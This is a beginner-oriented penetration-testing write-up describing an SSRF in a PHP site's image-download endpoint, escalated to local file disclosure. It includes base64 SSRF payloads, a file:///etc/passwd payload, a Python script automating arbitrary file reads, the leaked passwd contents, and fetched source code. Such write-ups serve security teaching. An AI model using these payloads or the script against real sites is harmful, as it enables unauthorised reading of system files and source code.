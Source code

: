 # Glimpse Into Web Penetration Testing
A web penetration testing example, that I did me and @Edd13Mora in our free time, for beginners to have an idea about websec.

Our target is a PHP web application, which gives you great tools that you can use on XXX and XXX, such as the one that gives you the ability to download a full size profile picture for a specific profile which leads us to write this write-up.

Compiling SSRF and Local File Disclosure, we were able to read the entire source code and get more vulnerabilities like SQL Injection until we got to the admin panel and were able to get the encoded login information.

## **Server-Side Request Forgery (SSRF)**

When we enter our profile name, the app redirects us, to another page with basic profile information like username, number of followers and account bio, and also gives you a download link for a full size profile picture that looks like this:

```
https://XXXXXXXXXX/XXXXXX/[BASE64].jpg
```

With Base64 in the download URL, it actually looks weird, after we decode it we can see that it's actually an Instagram image link, so we assumed the app ignores `.jpg` and just decodes base64 and sends a request to it and returns its content to us.

As we can see here:

```php
if ( !isset( $_GET["url"] ) ){
	exit();
}
$url_encoded = str_replace(".jpg", "", $_GET["url"]);
```

It will check if the parameter `url` exists, in that case `.jpg` will be replaced with nothing after that:

```php
$url = base64_decode( $url_encoded );
```

It will decode it, send the request, and print the response as we can see here:

```php
$data_headers = array();

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url ); 
curl_setopt($ch, CURLOPT_CUSTOMREQUEST, "GET");
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_HEADERFUNCTION, "header_callback");
curl_setopt($ch, CURLINFO_HEADER_OUT, 	 true);

$resp = curl_exec($ch);

curl_close ($ch);

foreach( $data_headers as $data_header){

	header( $data_header );
}

echo $resp;
```

To exploit this vulnerability, we can simply generate a malicious Base64 encoded string of our host URL in `beeceptor` so that we can check if the application is sending a request to any given URL without any checking, and it would be something like this:

```
https://XXXXXXXXXX/XXXXXX/aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=.jpg
```

Where `aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=` is our `beeceptor` URL base64 encoded.

After sending the request with our malicious payload we can see that we got a request in `beeceptor` and VOILA!! a SSRF.

## Local File Disclosure

The application does not perform any additional URL checks, which will allow us to read local files using the file URI schema, which looks like this:

```
file://[PATH]
```

We tried to read the `/etc/passwd/` file to get to know the target more, and were able to do that easily by creating a malicious URL and sending a request to it.

```
https://XXXXXXXXXX/XXXXXX/ZmlsZTovLy9ldGMvcGFzc3dkCg==.jpg // ZmlsZTovLy9ldGMvcGFzc3dkCg== -> file:///etc/passwd
```

The output will be messy in the browser, so we made an exploitation script that automate the whole process for us, and the output will be formatted:

```python
#!/usr/bin/python3
import requests, sys, base64
print(requests.get(f"https://www.XXXXXXXXXX.com/XXXXXX/{base64.b64encode(('file:///'+sys.argv[1]).encode('utf-8')).decode('utf-8')}.jpg").text)
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
....
cpanelphppgadmin:x:996:992:phpPgAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphppgadmin:/usr/local/cpanel/bin/noshell
cpanelphpmyadmin:x:995:991:phpMyAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphpmyadmin:/usr/local/cpanel/bin/noshell
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
cpses:x:994:990::/var/cpanel/cpses:/sbin/nologin
rhtmuczev5qgvzjk:x:1002:1005::/home2/rhtmuczev5qgvzjk:/usr/local/cpanel/bin/noshell
```

Reading the `passwd` file, we were able to tell that the target is hosted with `WHM / CPANEL`, and if you're not familiar with it, you can go ahead and check: [https://cpanel.net/products/](https://cpanel.net/products/), now we know the website won't be in `/var/www/html`, to access the source code and be able to read it we need to know the exact path to the `cpanel` user home path `rhtmuczev5qgvzjk`, luckily we already have `/home2/rhtmuczev5qgvzjk` in `passwd` file so it would be something like `/home2/rhtmuczev5qgvzjk/public_html/`, you can check [https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/](https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/) for more information, to be sure we tried read the `index.php` file and as expected we did.

```php
<?php require_once("common/functions.php"); ?>
<!DOCTYPE html>
<html lang="en">
<head>
....
<?php include("common/widgets/footer.php"); ?>

<script type="text/javascript">
        ga('send', 'pageview', '/');
</script>

</body>
</html> 
```

So hoping to get to the server, we've fetched all the source code and we are now ready for a nice code analysis.

```
WITH THE PERMISSION OF THE WEBSITE OWNER, WE WERE NOT ABLE TO SHARE THIS PART.
```
